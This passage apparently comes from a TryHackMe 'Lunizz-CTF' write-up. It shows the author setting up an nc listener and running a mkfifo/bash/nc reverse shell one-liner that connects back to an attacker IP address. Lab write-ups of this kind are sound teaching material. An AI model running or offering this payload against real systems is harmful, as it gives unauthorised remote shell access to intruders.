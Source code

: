 ```
```

**Successfully received 4 ICMP reply!**

**To get a reverse shell, I'll:**

- Check `nc` is installed or not:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lunizz-CTF/images/a6.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# nc -lnvp 443       
listening on [any] 443 ...
```

- Run the `nc` reverse shell payload:

**Payload:**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.18.61.134 443 >/tmp/f
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lunizz-CTF/images/a7.png)

